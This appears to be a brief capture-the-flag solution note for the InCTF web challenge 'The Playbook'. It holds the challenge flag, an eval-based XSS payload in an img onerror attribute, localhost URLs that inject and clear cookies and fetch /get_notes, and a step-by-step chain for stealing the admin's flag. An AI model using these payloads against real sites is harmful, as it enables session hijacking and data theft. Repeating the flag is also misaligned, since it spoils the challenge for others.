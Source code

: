 Name: The Playbook

Desc: This is going to be Legend ... wait for it ...

Flag: inctf{dary_l3g3nd4ry_23839732445567356721110}



<!-- Payload my end

<img src=x onerror=eval(decodeURIComponent(location.hash.substr(1)))></img>
 -->

<!-- Admin Side : Window.Open to set cookie

http://localhost:3000/find_notes?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get_notes 
-->

<!-- Admin Side : Window.Open to xss 

http://localhost:3000/#document.cookie=%22id=68b329da9893e34099c7d8ad5cb9c940;%20expires=Thu,%2001%20Jan%201970%2000:00:00%20UTC;path=/get_notes;%22;document.cookie=x;fetch('/get_notes').then(response=%3Eresponse.text()).then(data=%3Econsole.log(data));
-->

what da flow?

send admin the link --> add your cookie to the panel --> now, load the page --> the payload gets initialised --> delete the user's cookie --> make a fetch to the admin's /get-flag --> all is good as its in the same page